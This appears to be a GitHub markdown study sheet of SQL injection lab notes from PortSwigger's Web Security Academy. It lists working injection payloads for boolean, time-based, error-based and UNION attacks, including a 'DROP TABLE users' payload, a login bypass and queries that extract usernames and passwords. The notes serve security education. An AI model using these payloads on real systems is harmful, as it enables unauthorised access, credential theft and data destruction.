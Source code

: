 # Injection Examples: [Lab-Solutions](https://github.com/IOxCyber/CyberEssentials/blob/f759882896be05d29c88b3d7bc31fc83759afab3/Security-Tools/Burp_Suite/PortSwigger-WebSecAcad/Web_Vuln-Insights/SQL%20Injection/SQLi_Labs.md)

## A. `Retrieving hidden data`, where you can modify a SQL query to return additional results.

### 1. Testing for boolean-based attacks:
- Original Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
- Modified: ![image](https://github.com/user-attachments/assets/e4236490-1079-4f23-92c9-a4097f63a50c)
- Query to executed by DB after injections: `SELECT * FROM products;`

### Injections:
- `'OR '1'='1` - This payload appends an OR condition that always evaluates to true.
- `'OR 1=1 --` - This payload appends an OR condition that always evaluates to true, commenting out the remaining portion of the original query.
- `'OR 'x'='x` - This payload compares a string with itself, resulting in a true condition.

### 2. Testing for time-based attacks:
- `'OR SLEEP(5) --` - This payload tries to induce a delay of 5 seconds in the SQL query execution by using the SLEEP function. If the website is vulnerable, it will take longer to respond.
- `'OR BENCHMARK(10000000,SHA1(1)) --` - This payload attempts to measure the time taken to execute the SHA1 function a large number of times, causing a significant delay if the SQL injection is successful.

### 3. Testing for error-based attacks:
- `'OR 1=1; DROP TABLE users; --` - This payload combines a valid condition (1=1) with a malicious action (DROP TABLE users), potentially causing an error and deleting the "users" table.
-  `'OR 1=1 UNION ALL SELECT NULL, CONCAT(username,':', password) FROM users --` - This payload attempts to perform a UNION-based SQL injection to retrieve the usernames and passwords from the "users" table.

---
---

## B. `Subverting/interfering with application logic`, change a query to interfere with the application's logic.
- Testing on a login page involves attempting to subvert the application logic and bypass the authentication mechanism
- `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''` commenting out the remaining portion of the original query.

---
---

# UNION Attack

## C. UNION attacks `to combine the result sets of two or more SELECT statements in a single SQL query`

### 1. `Retrieve data from different database tables.`
- eg. `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

## NOTE: For a Union Query to work: Both queries should `Return same number of Columns, Data type must be compatiable.`

### Example
1. Original Query: `SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password';`

2. Injection: `username ' UNION SELECT null, table_name FROM information_schema.tables --` (-- to comment out rest of the original query)

3. Modified Query: `SELECT * FROM users WHERE username = '' UNION SELECT null, table_name FROM information_schema.tables --' AND password = 'input_password';`

### 2. Determining the number of columns required `No. of columns being returned from the original query` #LAB-4
- Motive: Determine the Columns Numbers > 

- Method 1: `injecting a series of ORDER BY clauses and incrementing` the specified column index until an error occurs.
> `ORDER BY` clause in SQL is used to sort the result set of a query by one or more columns.
```
eg.
SELECT * FROM employees WHERE age > 25 ORDER BY salary DESC;

' ORDER BY 1--    **It means to sort the table by column 1**
' ORDER BY 2--
' ORDER BY 3--
etc.
```
- Method 2: Submitting a series of `UNION SELECT` payloads specifying a different number of null values.
> NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed.
```
eg.

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

### Finding columns with a useful data type #Lab-5
- `After we determine the number of returning columns, we can probe each column to test whether it can hold string data.`
- We can submit a series of UNION SELECT payloads that place a string value into each column.
```
eg.

' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
> If the column data type is not compatible with string data, the injected query will cause a database error.


### Using a SQL injection UNION attack `to retrieve column(s) that can hold string`: #LAB-6
- Once, we determined the `number of columns returned` by the original query and found which `columns can hold string data`, you are in a position to retrieve interesting data.
```
eg.

The original query returns two columns, both of which can hold string data.
The injection point is a quoted string within the WHERE clause.
The database contains a table called users with the columns username and password.

In this example, you can retrieve the contents of the `users` table by submitting the input:

' UNION SELECT username, password FROM users--
```
> To perform above attack, we need to know that there is a `table USERS with two columns` called `username and password.`

### Retrieving multiple values within a single column: # LAB-7
- Can `retrieve multiple values together within this single column by concatenating the values` together.
- determine the No. of columns > determine which column allows TEXT values > retrieve Multiple TEXT values in a single Column.
- Oracle DB Injection: `' UNION SELECT username || '~' || password FROM users--`


### `Examining/Determining the database` in SQL injection attacks
- This includes `type and version` and `tables and columns` that the database contains.
- We can potentially identify both the database type and version by injecting provider-specific queries to see if one works.
```
Eg.

Database type    	Query
Microsoft, MySQL	SELECT @@version
Oracle	          SELECT * FROM v$version
PostgreSQL	      SELECT version()
```
- Injection: `' UNION SELECT @@version--`













